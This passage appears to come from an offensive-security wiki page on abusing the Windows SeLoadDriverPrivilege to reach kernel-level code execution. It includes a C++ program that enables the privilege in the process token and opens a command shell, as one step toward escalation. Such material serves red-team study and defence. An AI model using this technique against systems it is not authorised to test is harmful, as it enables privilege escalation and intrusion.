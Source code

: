 ![](../../.gitbook/assets/screenshot-from-2018-12-17-17-42-47.png)

## SeLoadDriverPrivilege

A very dangerous privilege to assign to any user - it allows the user to load kernel drivers and execute code with kernel privilges aka `NT\System`. See how `offense\spotless` user has this privilege:

![](../../.gitbook/assets/screenshot-from-2018-12-17-22-40-30.png)

`Whoami /priv` shows the privilege is disabled by default:

![](../../.gitbook/assets/screenshot-from-2018-12-17-21-59-15.png)

However, the below code allows enabling that privilege fairly easily:

{% code title="privileges.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>

int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
	if (bEnablePrivilege) {
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	system("cmd");
    return 0;
}
```
{% endcode %}
